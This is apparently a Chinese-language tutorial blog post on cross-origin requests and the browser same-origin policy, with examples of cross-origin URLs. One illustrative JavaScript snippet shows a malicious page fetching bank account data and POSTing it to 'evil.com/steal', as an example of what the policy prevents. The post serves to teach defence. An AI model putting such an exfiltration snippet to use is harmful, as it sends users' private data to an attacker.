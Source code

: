 ```yaml
---
title: 跨域
date: 2025-09-01 18:45:17
tags: [前端, 网络安全, CORS, 跨域]
categories: 前端开发
---
```



## 引言

在项目开发中，我们经常遇到这样的困扰：用Postman测试API接口一切正常，但在浏览器中却出现了OPTIONS 403错误，提示跨域问题。今天我们就来深入了解跨域的原理和解决方案。

## 1. 什么是跨域

### 1.1 同源策略

同源策略是浏览器的一个重要安全机制，它限制了一个源（origin）的文档或脚本如何能与另一个源的资源进行交互。

**同源的定义：**

- 协议相同（http/https）
- 域名相同
- 端口相同

**同源策略的安全目的：**

1. **防止CSRF攻击**：阻止恶意网站向用户已登录的网站发送请求
2. **保护用户隐私**：防止恶意脚本读取其他网站的敏感数据
3. **防止XSS攻击扩散**：限制恶意脚本跨域访问资源
4. **保护API安全**：防止未授权的跨域API调用

```javascript
// 恶意网站想要获取用户银行信息的例子
// 如果没有同源策略，恶意网站可以这样做：
fetch('https://bank.com/account-info')  // 被同源策略阻止
  .then(data => {
    // 窃取用户银行信息发送到恶意服务器
    fetch('https://evil.com/steal', { 
      method: 'POST', 
      body: data 
    });
  });
```

### 1.2 跨域场景示例

```javascript
// 当前页面：https://www.example.com:8080
// 以下请求都属于跨域：
fetch('http://www.example.com:8080/api')   // 协议不同
fetch('https://api.example.com:8080/data') // 域名不同  
fetch('https://www.example.com:9000/api')  // 端口不同
```
